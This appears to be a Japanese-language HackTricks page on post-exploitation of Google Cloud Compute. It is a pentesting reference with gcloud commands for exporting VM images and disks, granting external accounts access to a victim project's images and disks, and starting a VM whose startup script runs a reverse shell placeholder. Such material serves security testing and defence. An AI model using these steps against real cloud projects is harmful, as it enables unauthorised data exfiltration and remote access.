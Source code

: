 # GCP - Compute Post Exploitation

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Compute

ComputeとVPC（ネットワーキング）についての詳細は以下をチェックしてください:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### イメージをエクスポートしてローカルで検査する

これにより、攻撃者は**既存のイメージ内に含まれるデータにアクセス**したり、**実行中のVMの新しいイメージを作成**して、実行中のVMにアクセスせずにそのデータにアクセスすることができます。

バケットにVMイメージをエクスポートし、それをダウンロードしてローカルでマウントすることができます。コマンドは以下の通りです:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行する前に、攻撃者はストレージバケットに対する権限と、確実に**cloudbuildに対する権限**が必要です。なぜなら、エクスポートを実行するように要求される**サービス**はcloudbuildだからです。\
さらに、これを機能させるためには、codebuild SAとcompute SAには特権的な権限が必要です。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` には以下が必要です:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そして、SA `<project-id>-compute@developer.gserviceaccount.com` には以下が必要です:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクをローカルでエクスポートして検査する

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換する**ことは可能であり、**前のセクション**に従って、そのイメージをエクスポートしてローカルで検査することができます

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### イメージを作成するVMを検査する

**イメージに保存されたデータ**や攻撃者がイメージを**作成した** **実行中のVM**内のデータにアクセスする目的で、外部アカウントにイメージへのアクセス権を付与することが可能です：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
新しいVMをそれから作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
```markdown
もしあなたがそのイメージに外部アカウントのアクセス権を与えることができなかった場合、被害者のプロジェクトでそのイメージを使用してVMを起動し、以下のパラメータを追加して**メタデータがリバースシェルを実行するように**してイメージにアクセスすることができます:
```
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクをVMにアタッチして調査する

**ディスクまたはスナップショットに保存されているデータにアクセスする**ために、スナップショットをディスクに変換したり、ディスクをイメージに変換して前述の手順に従うことができます。

または、**外部アカウントにディスクへのアクセス権を付与**することができます（スタートポイントがスナップショットの場合は、スナップショットへのアクセス権を付与するか、それをディスクに作成します）。
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチします**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM内でディスクをマウントする：

1. **VMにSSHで接続**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定する**: VM内で、新しいディスクをディスクデバイスのリストから特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウントする**（新しいディスクまたは生のディスクの場合）:
*   マウントポイントを作成する:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウントする:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

もし**外部プロジェクトにスナップショットやディスクへのアクセスを許可できない**場合は、**スナップショット/ディスクと同じプロジェクト内のインスタンスでこれらのアクションを実行する**必要があるかもしれません。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**のGitHubリポジトリ[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

